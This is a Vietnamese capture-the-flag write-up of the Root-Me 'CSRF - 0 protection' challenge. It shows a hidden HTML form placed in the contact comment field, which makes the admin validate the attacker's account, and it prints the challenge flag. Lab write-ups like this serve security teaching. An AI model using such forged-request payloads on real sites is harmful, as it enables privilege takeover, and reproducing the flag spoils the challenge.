

# Write up challenge CSRF - 0 protection

Tác giả:
- **Nguyễn Mỹ Quỳnh**  

  
[Link Challenge](https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection) 
 

 

Truy cập challenge ta thấy có chỗ đăng kí user. Tiến hành đăng kí 

 

 

Đăng kí thành công. Sau đó đăng nhập

 

Sau khi đăng nhập chúng ta sẽ thấy 4 trang: Contact | Profile | Private | Logout

- Trang Profile ta thấy có một form nhưng phải là admin mới submit được  

 

- Trang Private cho ta thấy user của ta chưa được validate, phải là admin mới có quyền validate

 

- Trang Contact có form submit được, có lẽ ta có thể khai thác ở đây!

 

Tuy nhiên khi xem xét ta thấy ô Email có thể được để trống và cũng không là tham số của HTTP request nên chính xác là ta sẽ chèn code vào ô Comment để khai thác

 

Bây giờ ta sẽ tiến hành tấn công CSRF. Xem source form trang Profile. 

Dựa trên đó ta tiến hành viết form tương tự, chỉnh sửa phù hợp với ý muốn của ta username là `q` và status là `on` và submit. Lúc này khi admin check form, ta sẽ thành công validate user với danh nghĩa admin

    <form  id="csrf-form" action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" method="POST" enctype="multipart/form-data">
        <input type="hidden" name="username" value="q" />
        <input type="hidden" name="status" value="on" />
        <input type="submit" value="Submit request" />
        </form>
    

Đợi một lát vào lại trang Private thì có được flag:

Submit thành công 

  

> **Flag:** Csrf_Fr33style-L3v3l1!

